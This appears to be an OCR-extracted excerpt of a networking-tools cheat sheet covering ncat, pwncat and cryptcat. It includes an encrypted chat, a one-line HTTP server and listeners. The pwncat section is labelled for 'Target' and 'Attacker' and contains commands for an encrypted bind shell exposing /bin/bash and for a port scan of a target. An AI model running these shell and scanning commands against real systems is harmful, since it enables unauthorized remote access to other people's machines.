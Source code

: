 ### Encrypted Chat
**Server**:
```bash
ncat -lvnp 4444 --ssl
```

**Client**:
```bash
ncat <IP> 4444 --ssl
```

### HTTP Server
```bash
ncat -lvnp 8080 --sh-exec "echo -e 'HTTP/1.1 200 OK\\n\\nHello World'"
```

---

## Pwncat
Netcat with superpowers.

### Feature-Rich Listener
```bash
pwncat -lp 4444
```

### Encrypted Bind Shell
**Target**:
```bash
pwncat -lp 4444 -e /bin/bash --ssl
```

**Attacker**:
```bash
pwncat <target-IP> 4444 --ssl
```

### Port Scanning
```bash
pwncat -z <target-IP> 1-1000
```

---

## Cryptcat
Encrypted Netcat variant.

### Basic Encrypted Listener
**Server**:
```bash
cryptcat -lvp 4444 -k "secretkey"
```
